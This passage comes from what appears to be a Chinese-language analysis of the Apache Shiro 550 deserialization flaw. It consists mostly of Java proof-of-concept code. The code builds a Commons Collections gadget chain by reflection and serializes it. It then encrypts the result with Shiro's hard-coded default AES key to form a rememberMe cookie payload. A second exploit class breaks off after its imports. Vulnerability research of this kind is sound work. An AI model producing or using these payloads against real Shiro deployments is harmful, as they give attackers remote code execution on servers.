 ```java
        f3.setAccessible(true);
        HashMap innimpl = null;
        innimpl = (HashMap) f3.get(map);

        Field f4 = null;
        try {
            f4 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f4 = HashMap.class.getDeclaredField("elementData");
        }
        f4.setAccessible(true);
        Object[] array = new Object[0];
        array = (Object[]) f4.get(innimpl);
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, entry);
        Field f5 = transformer.getClass().getDeclaredField("iMethodName");
        f5.setAccessible(true);
        f5.set(transformer,"newTransformer");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        byte[] payloads = byteArrayOutputStream.toByteArray();
        AesCipherService aes = new AesCipherService();
        byte[] key = new BASE64Decoder().decodeBuffer("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());

    }
}
```
![image.png](Shiro 550 分析.assets/2023_05_19_10_37_00_SnNjRmsX.png)
![image.png](Shiro 550 分析.assets/2023_05_19_10_37_00_oFvLpUCA.png)
### POC2
```java
package com.test;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import sun.misc.BASE64Decoder;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
```